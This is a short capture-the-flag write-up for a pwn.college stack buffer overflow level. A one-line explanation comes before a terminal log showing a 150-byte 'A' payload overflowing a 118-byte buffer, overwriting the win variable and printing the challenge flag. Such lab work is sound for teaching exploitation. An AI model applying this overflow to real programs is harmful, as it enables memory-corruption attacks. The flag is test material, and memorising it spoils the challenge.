 simple, just needed to change the value of win variable using a very long string

```pwn.college{4RkeBF-S3R2OFYpbCSuVsGwDHoP.0VO4IDLxEzN0czW}```

```
hacker@memory-errors~level1-0:/challenge$ ./*
###
### Welcome to ./babymem-level-1-0!
###

The challenge() function has just been launched!
Before we do anything, let's take a look at challenge()'s stack frame:
+---------------------------------+-------------------------+--------------------+
|                  Stack location |            Data (bytes) |      Data (LE int) |
+---------------------------------+-------------------------+--------------------+
| 0x00007ffd8dc27830 (rsp+0x0000) | 10 00 00 00 30 00 00 00 | 0x0000003000000010 |
| 0x00007ffd8dc27838 (rsp+0x0008) | 48 8a c2 8d fd 7f 00 00 | 0x00007ffd8dc28a48 |
| 0x00007ffd8dc27840 (rsp+0x0010) | 38 8a c2 8d fd 7f 00 00 | 0x00007ffd8dc28a38 |
| 0x00007ffd8dc27848 (rsp+0x0018) | 8d de 6f 5e 01 00 00 00 | 0x000000015e6fde8d |
| 0x00007ffd8dc27850 (rsp+0x0020) | a0 e6 1b 00 00 00 00 00 | 0x00000000001be6a0 |
| 0x00007ffd8dc27858 (rsp+0x0028) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffd8dc27860 (rsp+0x0030) | 70 78 c2 8d fd 7f 00 00 | 0x00007ffd8dc27870 |
| 0x00007ffd8dc27868 (rsp+0x0038) | e8 78 c2 8d fd 7f 00 00 | 0x00007ffd8dc278e8 |
| 0x00007ffd8dc27870 (rsp+0x0040) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffd8dc27878 (rsp+0x0048) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffd8dc27880 (rsp+0x0050) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffd8dc27888 (rsp+0x0058) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffd8dc27890 (rsp+0x0060) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffd8dc27898 (rsp+0x0068) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffd8dc278a0 (rsp+0x0070) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffd8dc278a8 (rsp+0x0078) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffd8dc278b0 (rsp+0x0080) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffd8dc278b8 (rsp+0x0088) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffd8dc278c0 (rsp+0x0090) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffd8dc278c8 (rsp+0x0098) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffd8dc278d0 (rsp+0x00a0) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffd8dc278d8 (rsp+0x00a8) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffd8dc278e0 (rsp+0x00b0) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffd8dc278e8 (rsp+0x00b8) | 00 00 00 00 4b 5a 00 00 | 0x00005a4b00000000 |
| 0x00007ffd8dc278f0 (rsp+0x00c0) | 40 89 c2 8d fd 7f 00 00 | 0x00007ffd8dc28940 |
| 0x00007ffd8dc278f8 (rsp+0x00c8) | 00 35 ef eb 1f f8 d4 b3 | 0xb3d4f81febef3500 |
| 0x00007ffd8dc27900 (rsp+0x00d0) | 40 89 c2 8d fd 7f 00 00 | 0x00007ffd8dc28940 |
| 0x00007ffd8dc27908 (rsp+0x00d8) | d6 34 e6 8d 4b 5a 00 00 | 0x00005a4b8de634d6 |
+---------------------------------+-------------------------+--------------------+
Our stack pointer points to 0x7ffd8dc27830, and our base pointer points to 0x7ffd8dc27900.
This means that we have (decimal) 28 8-byte words in our stack frame,
including the saved base pointer and the saved return address, for a
total of 224 bytes.
The input buffer begins at 0x7ffd8dc27870, partway through the stack frame,
("above" it in the stack are other local variables used by the function).
Your input will be read into this buffer.
The buffer is 118 bytes long, but the program will let you provide an arbitrarily
large input length, and thus overflow the buffer.

In this level, there is a "win" variable.
By default, the value of this variable is zero.
However, when this variable is non-zero, the flag will be printed.
You can make this variable be non-zero by overflowing the input buffer.
The "win" variable is stored at 0x7ffd8dc278e8, 120 bytes after the start of your input buffer.

Payload size: 150
You have chosen to send 150 bytes of input!
This will allow you to write from 0x7ffd8dc27870 (the start of the input buffer)
right up to (but not including) 0x7ffd8dc27906 (which is 32 bytes beyond the end of the buffer).
Send your payload (up to 150 bytes)!
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
You sent 150 bytes!
Let's see what happened with the stack:

+---------------------------------+-------------------------+--------------------+
|                  Stack location |            Data (bytes) |      Data (LE int) |
+---------------------------------+-------------------------+--------------------+
| 0x00007ffd8dc27830 (rsp+0x0000) | 10 00 00 00 30 00 00 00 | 0x0000003000000010 |
| 0x00007ffd8dc27838 (rsp+0x0008) | 48 8a c2 8d fd 7f 00 00 | 0x00007ffd8dc28a48 |
| 0x00007ffd8dc27840 (rsp+0x0010) | 38 8a c2 8d fd 7f 00 00 | 0x00007ffd8dc28a38 |
| 0x00007ffd8dc27848 (rsp+0x0018) | 8d de 6f 5e 01 00 00 00 | 0x000000015e6fde8d |
| 0x00007ffd8dc27850 (rsp+0x0020) | a0 e6 1b 00 96 00 00 00 | 0x00000096001be6a0 |
| 0x00007ffd8dc27858 (rsp+0x0028) | 96 00 00 00 00 00 00 00 | 0x0000000000000096 |
| 0x00007ffd8dc27860 (rsp+0x0030) | 70 78 c2 8d fd 7f 00 00 | 0x00007ffd8dc27870 |
| 0x00007ffd8dc27868 (rsp+0x0038) | e8 78 c2 8d fd 7f 00 00 | 0x00007ffd8dc278e8 |
| 0x00007ffd8dc27870 (rsp+0x0040) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
| 0x00007ffd8dc27878 (rsp+0x0048) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
| 0x00007ffd8dc27880 (rsp+0x0050) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
| 0x00007ffd8dc27888 (rsp+0x0058) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
| 0x00007ffd8dc27890 (rsp+0x0060) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
| 0x00007ffd8dc27898 (rsp+0x0068) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
| 0x00007ffd8dc278a0 (rsp+0x0070) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
| 0x00007ffd8dc278a8 (rsp+0x0078) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
| 0x00007ffd8dc278b0 (rsp+0x0080) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
| 0x00007ffd8dc278b8 (rsp+0x0088) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
| 0x00007ffd8dc278c0 (rsp+0x0090) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
| 0x00007ffd8dc278c8 (rsp+0x0098) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
| 0x00007ffd8dc278d0 (rsp+0x00a0) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
| 0x00007ffd8dc278d8 (rsp+0x00a8) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
| 0x00007ffd8dc278e0 (rsp+0x00b0) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
| 0x00007ffd8dc278e8 (rsp+0x00b8) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
| 0x00007ffd8dc278f0 (rsp+0x00c0) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
| 0x00007ffd8dc278f8 (rsp+0x00c8) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
| 0x00007ffd8dc27900 (rsp+0x00d0) | 41 41 41 41 41 41 00 00 | 0x0000414141414141 |
| 0x00007ffd8dc27908 (rsp+0x00d8) | d6 34 e6 8d 4b 5a 00 00 | 0x00005a4b8de634d6 |
+---------------------------------+-------------------------+--------------------+
The program's memory status:
- the input buffer starts at 0x7ffd8dc27870
- the saved frame pointer (of main) is at 0x7ffd8dc27900
- the saved return address (previously to main) is at 0x7ffd8dc27908
- the saved return address is now pointing to 0x5a4b8de634d6.
- the canary is stored at 0x7ffd8dc278f8.
- the canary value is now 0x4141414141414141.
- the address of the win variable is 0x7ffd8dc278e8.
- the value of the win variable is 0x41414141.

You win! Here is your flag:
pwn.college{4RkeBF-S3R2OFYpbCSuVsGwDHoP.0VO4IDLxEzN0czW}


Goodbye!
*** stack smashing detected ***: terminated
```
